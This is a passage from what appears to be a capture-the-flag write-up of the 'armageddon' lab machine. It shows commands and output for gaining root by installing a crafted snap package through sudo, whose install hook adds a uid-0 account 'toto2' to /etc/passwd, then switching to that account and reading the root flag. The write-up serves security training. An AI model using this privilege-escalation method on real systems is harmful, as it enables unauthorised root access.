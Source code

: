     ┌──(kali㉿kali)-[/tmp/tmp.podJijQ4NH]
    └─$ fpm -n test2 -s dir -t snap -a all meta
    Created package {:path=>"test2_1.0_all.snap"}

    └─$ scp test2_1.0_all.snap brucetherealadmin@10.129.48.89:

We install the snap on the box which create the `toto2` user and we can switch
to it to get a root shell and grab the root flag

    :::text
    [brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install test2_1.0_all.snap --dangerous --devmode
    error: cannot perform the following tasks:
    - Run install hook of "test2" snap if present (run hook "install": exit status 1)
    [brucetherealadmin@armageddon ~]$ cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    games:x:12:100:games:/usr/games:/sbin/nologin
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
    nobody:x:99:99:Nobody:/:/sbin/nologin
    systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
    dbus:x:81:81:System message bus:/:/sbin/nologin
    polkitd:x:999:998:User for polkitd:/:/sbin/nologin
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    postfix:x:89:89::/var/spool/postfix:/sbin/nologin
    apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
    mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
    brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
    toto2:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
    [brucetherealadmin@armageddon ~]$ su toto2
    Password:
    [root@armageddon brucetherealadmin]# id
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [root@armageddon brucetherealadmin]# cat /root/root.txt
    59303daefd76582a8731bbc25b7b9c47

